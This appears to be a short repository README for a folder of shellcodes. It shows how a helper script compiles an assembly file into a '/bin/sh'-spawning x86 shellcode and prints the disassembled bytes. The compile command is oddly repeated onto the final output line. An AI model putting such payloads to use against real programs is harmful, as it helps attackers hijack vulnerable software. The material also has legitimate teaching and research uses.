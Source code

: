 # Shellcodes

This folder contains some useful shellcodes, as well as `compile_asm.py` script.


## Compiling a shellcode

### Example

```
$ ./compile_asm.py open_shell_x86_32.asm -o compiled_shellcode
$ ndisasm compiled_shellcode
00000000  EB0D              jmp short 0xf
00000002  5B                pop bx
00000003  53                push bx
00000004  B80B00            mov ax,0xb
00000007  0000              add [bx+si],al
00000009  31C9              xor cx,cx
0000000B  31D2              xor dx,dx
0000000D  CD80              int 0x80
0000000F  E8EEFF            call 0x0
00000012  FF                db 0xff
00000013  FF2F              jmp far [bx]
00000015  62696E            bound bp,[bx+di+0x6e]
00000018  2F                das
00000019  7368              jnc 0x83
0000001B  00                db 0x00$ ./compile_asm.py open_shell_x86_32.asm -o compiled_shellcode
```
